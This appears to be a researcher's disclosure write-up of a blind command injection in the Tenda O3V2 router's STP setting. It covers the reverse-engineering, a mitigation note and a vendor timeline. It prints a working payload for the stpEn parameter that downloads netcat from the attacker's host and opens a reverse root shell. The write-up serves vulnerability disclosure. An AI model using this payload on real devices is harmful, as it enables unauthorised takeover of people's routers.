 ```yaml
---
title: Blind Command Injection in STP Service on Tenda O3V2
date: 2024-05-19 13:30:00 +07:00
tags: [research, hardware]
---
```


This article discusses the second vulnerability I found in the Tenda O3V2 with firmware version 1.0.0.12. The vulnerability I found was blind command injection on the enable/disable STP Service feature. Blind command injection is a vulnerability that allows an attacker to execute operating system commands on the server that is running an application and application does not return the output from the command. Tenda O3V2 have stp service, by default this service is off, when disable this service will carry a value of 0 and if enable the service will carry a value of 1 on the parameter then enter the dosystemcmd function. Due to the lack of validation on these parameter, blind command injection can occur.


### Vulnerability Analysis

Open router’s httpd binary with Ghidra. In the setSTP function there is the doSystemCmd function, this function executes the command that will enable/disable the stp service and this function requires user input.  It is evident in the stprequest variable there is no sanitization, this variable will later be passed to the doSystemCmd function, potentially leading to command injection, and because the command is only executed and the result of the command is not displayed, this command injection is blind.

![SetSTP Function](/assets/img/blind-command-injection-in-stp-service-on-tenda-o3v2/setstpfunc.png)

Listen on port 1337 with nc (netcat), then activate the web server to make the router download the netcat binary (mips). Netcat is used for reverse shell.

![Python HTTP Server](/assets/img/blind-command-injection-in-stp-service-on-tenda-o3v2/pythonhttpserver.png)

Visit 192.168.2.1 and login, then go to Network Service

![Network Service](/assets/img/blind-command-injection-in-stp-service-on-tenda-o3v2/networkservice.png)

Intercept request using burpsuite when submit. In the setNetworkService endpoint, there is stpEn parameter.

![Intercept Request](/assets/img/blind-command-injection-in-stp-service-on-tenda-o3v2/interceptrequest.png)

Change the value of the stpEn parameter to the command we want, for example performing a reverse shell then forward the request<br>
```bash
;wget 192.168.2.158:8000/netcat -O /tmp/netcat&&chmod +x /tmp/netcat&&./tmp/netcat 192.168.2.158 1337 -e /bin/sh
```
Explanation of this command, the router will download the netcat binary stored in the tmp directory, then the binary will be given execute access and then execute the binary to reverse shell to port 1337. Then forward the request.

![Reverse Shell](/assets/img/blind-command-injection-in-stp-service-on-tenda-o3v2/revshell.png)

Check the web server, and it's visible that the router is downloading the netcat file

![Download nc MIPS](/assets/img/blind-command-injection-in-stp-service-on-tenda-o3v2/downloadncmips.png)

Check on the listener, the reverse shell is successful. Now, we got full access to the router with root privilege.

![Got Root Shell](/assets/img/blind-command-injection-in-stp-service-on-tenda-o3v2/gotrootshell.png)


### Mitigation

When this article was published, Tenda had already released new firmware for this device with firmware version 1.0.0.13(5755). In this firmware version, the vulnerability has been fixed by implementing sanitization.

They still haven't released the new firmware to the public but you can download the latest firmware [here](https://drive.google.com/file/d/1687UGmpNgmPnvOeJtIuDvoEUrDh7VSKZ/view?usp=sharing){:target="_blank"}{:rel="noopener noreferrer"}


### Timeline
20 April 2024: Vulnerability discovered and sent them the details of the vulnerability.<br>
20 April 2024: Vendor triage the vulnerability.<br>
22 April 2024: Vendor release new firmware version 1.0.0.13(5755).<br>
25 April 2024: Retesting on the new firmware version and confirming the vulnerability has been fixed.<br>